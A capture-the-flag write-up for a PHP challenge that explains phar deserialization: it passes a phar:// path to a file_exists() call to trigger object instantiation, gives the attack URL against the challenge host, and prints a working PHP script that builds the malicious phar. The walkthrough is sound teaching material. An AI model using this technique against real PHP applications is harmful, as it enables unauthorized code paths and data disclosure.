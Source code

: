 ```
```

Given some past experience with php chals, it is clear that we need to create a phar payload with a reference to the FLAG class onto the server and then somehow get it to be deserialized.

A phar file is a php thing where you can encapsulate some php code and object references into a single binary payload.

If your phar file has an object reference to the FLAG class, then if you can get your phar to deserialize on the server, it will create an instance of FLAG and also soon after destroy it calling __destruct(); which will echo the flag to whatever page is doing the deserialization.

So, two goals:

1. Find a way of deserializing a phar file in this app
2. Find a way of creating a suitable phar file on the server

It turns out goal #1 is easy because index.php calls file_exists() on a parameter we control.

PHP has several language-specific protocols kind of like `http://` and `ftp://` except they are php specific.

One is `phar://`

As is explained well here, the file_exists() function will honor the phar:// protocol.

https://security.szurek.pl/en/php-phar-file-exists-can-be-dangerous/

So, if we can achieve goal #2 then we can get the flag by doing:

`http://43.155.59.185:53340/?file=phar://<our-file>`

Then `file_exists()` will be called with `phar://<our-file>` and  it will first deserialize the file.  Our phar file will have an object reference to the FLAG class which will then cause it to emit the flag.


# Learning about PHAR files
You need to have php installed on your computer to follow along here.

Let's create a php file we can use to create a phar file.  Please note the explanatory comments.

[create_phar.php]
```
<?php
// file file will be created
$filename = 'test.phar';
unlink($filename);

$phar = new Phar($filename);
$phar->startBuffering();

// this is just some dummy content needed or else it won't create the file
// the content itself is not important
$phar->addFromString('test.txt', 'text');

// all phar files must have a stub that ends with __HALT_COMPILER);
// note that if we tried to put code in here, it would NOT run during
// deserialization of the phar
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// this is a dummy version of FLAG (which is fine)
class FLAG {}
$object = new FLAG;

// adding this reference WILL cause a FLAG instance to be instantiated
// on the server DURING deserialization
$phar->setMetadata($object);
$phar->stopBuffering();
```